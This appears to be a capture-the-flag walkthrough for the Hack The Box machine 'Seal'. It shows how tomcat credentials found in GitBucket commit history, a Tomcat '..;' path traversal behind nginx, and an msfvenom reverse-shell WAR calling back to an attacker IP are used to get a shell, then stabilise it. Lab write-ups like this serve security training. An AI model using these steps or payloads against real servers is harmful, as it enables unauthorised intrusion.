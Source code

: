 - We have a user named Alex at alex@seal.htb
- We have a user named Luis at luis@seal.htb
- 


### GitBucket

Checking through the issues, we see that there has been some discussion about the authentication.

Looking through the commit history, we see this:

![Untitled](/assets/20210722212040.png)

Username: `tomcat`
Password: `42MrHBf*z8{Z%`


We can then access the `/manager/status` of tomcat.

if we take a look at this:
`https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/`

We'll see that there is a vector that opens up for directory traversal, when using tomcat with nginx.

Sure enough, we're in, after setting the url to `/manager/status/..;/html`

![Untitled](/assets/20210722212531.png)

Standard procedure for Tomcat is to generate a bad WAR file and upload it, which would give us a reverse shell.

```bash
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.13 LPORT=9001 -f war > reverse.war
Payload size: 1092 bytes
Final size of war file: 1092 bytes
```

When uploading the WAR, we must intercept the POST request and add the additional path traversal to the outgoing request's URL. Otherwise, we will only get a 403 again.

![Untitled](/assets/20210722213756.png)

Once uploaded, startup a listener on the port given during the generation of the WAR file, and proceed to launch the webpage generated in the tomcat manager ui.

If done correctly, this will spawn the reverse shell.

![Untitled](/assets/20210722214056.png)

`python3 --version` gives us confirmation that python is available on the box.

`python3 -c "import pty; pty.spawn('bin/bash')"` gives us a better shell.

Finally to get the best tty: 
```
$ stty raw -echo && fg
$ reset
$ xterm
$ export TERM=xterm && export SHELL=/bin/bash
```

